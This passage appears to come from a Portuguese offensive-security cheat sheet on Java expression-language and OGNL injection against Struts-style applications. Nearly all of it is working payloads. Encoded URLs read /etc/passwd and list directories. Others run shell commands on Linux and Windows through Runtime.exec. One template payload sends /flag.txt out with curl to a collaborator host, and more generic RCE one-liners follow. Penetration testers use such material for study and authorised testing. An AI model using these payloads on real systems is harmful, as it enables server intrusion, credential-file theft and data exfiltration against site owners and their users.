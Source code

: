 ```bash
https://www.example.url/?vulnerableParameter=${%23_memberAccess%3d%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS,%23wwww=new%20java.io.File(%23parameters.INJPARAM[0]),%23pppp=new%20java.io.FileInputStream(%23wwww),%23qqqq=new%20java.lang.Long(%23wwww.length()),%23tttt=new%20byte[%23qqqq.intValue()],%23llll=%23pppp.read(%23tttt),%23pppp.close(),%23kzxs%3d%40org.apache.struts2.ServletActionContext%40getResponse().getWriter()%2c%23kzxs.print(new+java.lang.String(%23tttt))%2c%23kzxs.close(),1%3f%23xx%3a%23request.toString}&INJPARAM=%2fetc%2fpasswd
```
### Listagem de Diretório
```bash
https://www.example.url/?vulnerableParameter=${%23_memberAccess%3d%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS,%23wwww=new%20java.io.File(%23parameters.INJPARAM[0]),%23pppp=%23wwww.listFiles(),%23qqqq=@java.util.Arrays@toString(%23pppp),%23kzxs%3d%40org.apache.struts2.ServletActionContext%40getResponse().getWriter()%2c%23kzxs.print(%23qqqq)%2c%23kzxs.close(),1%3f%23xx%3a%23request.toString}&INJPARAM=..
```
### RCE

* Explicação básica de RCE **explanation**
```bash
#Check the method getRuntime is there
{"".getClass().forName("java.lang.Runtime").getMethods()[6].toString()}
[public static java.lang.Runtime java.lang.Runtime.getRuntime()]

#Execute command (you won't see the command output in the console)
{"".getClass().forName("java.lang.Runtime").getRuntime().exec("curl http://127.0.0.1:8000")}
[Process[pid=10892, exitValue=0]]

#Execute command bypassing "getClass"
#{""["class"].forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec("curl <instance>.burpcollaborator.net")}

# With HTMl entities injection inside the template
<a th:href="${''.getClass().forName('java.lang.Runtime').getRuntime().exec('curl -d @/flag.txt burpcollab.com')}" th:title='pepito'>
```
* RCE **linux**
```bash
https://www.example.url/?vulnerableParameter=${%23_memberAccess%3d%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS,%23wwww=@java.lang.Runtime@getRuntime(),%23ssss=new%20java.lang.String[3],%23ssss[0]="%2fbin%2fsh",%23ssss[1]="%2dc",%23ssss[2]=%23parameters.INJPARAM[0],%23wwww.exec(%23ssss),%23kzxs%3d%40org.apache.struts2.ServletActionContext%40getResponse().getWriter()%2c%23kzxs.print(%23parameters.INJPARAM[0])%2c%23kzxs.close(),1%3f%23xx%3a%23request.toString}&INJPARAM=touch%20/tmp/InjectedFile.txt
```
* RCE **Windows** (não testado)
```bash
https://www.example.url/?vulnerableParameter=${%23_memberAccess%3d%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS,%23wwww=@java.lang.Runtime@getRuntime(),%23ssss=new%20java.lang.String[3],%23ssss[0]="cmd",%23ssss[1]="%2fC",%23ssss[2]=%23parameters.INJPARAM[0],%23wwww.exec(%23ssss),%23kzxs%3d%40org.apache.struts2.ServletActionContext%40getResponse().getWriter()%2c%23kzxs.print(%23parameters.INJPARAM[0])%2c%23kzxs.close(),1%3f%23xx%3a%23request.toString}&INJPARAM=touch%20/tmp/InjectedFile.txt
```
* **Mais RCE**
```java
// Common RCE payloads
''.class.forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec(<COMMAND STRING/ARRAY>)
''.class.forName('java.lang.ProcessBuilder').getDeclaredConstructors()[1].newInstance(<COMMAND ARRAY/LIST>).start()

// Method using Runtime via getDeclaredConstructors
#{session.setAttribute("rtc","".getClass().forName("java.lang.Runtime").getDeclaredConstructors()[0])}
#{session.getAttribute("rtc").setAccessible(true)}
#{session.getAttribute("rtc").getRuntime().exec("/bin/bash -c whoami")}
```